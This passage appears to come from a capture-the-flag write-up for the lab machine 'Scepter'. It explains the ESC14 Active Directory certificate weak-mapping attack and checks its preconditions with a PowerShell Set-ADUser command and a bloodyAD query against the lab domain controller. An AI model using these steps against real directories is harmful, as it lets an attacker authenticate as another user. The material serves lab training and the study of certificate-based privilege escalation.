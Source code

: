 ![alt text](../assets/image_scepter/ESC14find.png)

We are in [this case](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc14-weak-explicit-mapping)

> The target has an explicit weak mapping of type X509RFC822. The attacker can modify the mail attribute of the victim so that it matches the X509RFC822 mapping of the target. It is then possible to enroll on the certificate model with the victim, and use the certificate obtained to authenticate as the target.

- [x] The target is a user account
- [x] The certificate template shows CT_FLAG_NO_SECURITY_EXTENSION in msPKI-Enrollment-Flag and shows the attribute CT_FLAG_SUBJECT_ALT_REQUIRE_EMAIL in msPKI-Certificate-Name-Flag
- [x] The attacker has write access to the mail attribute of the victim
- [ ] The target already has at least one X509RFC822 mapping in altSecurityIdentities

Let's check the last point : 

We can simply add a value in altSecurityIdentities

```powershell
PS > Set-ADUser -Identity "p.adams" -Add @{'altSecurityIdentities'='X509:<RFC822>toto@scepter.htb'}
```
```bash
➜ bloodyAD -d scepter.htb -u h.brown -k --host dc01.scepter.htb --dc-ip 10.129.28.117 get object p.adams

altSecurityIdentities: X509:<UPN=toto@scepter.htb>/CN=StaffAccessCertificate
```
- [x] The target already has at least one X509RFC822 mapping in altSecurityIdentities
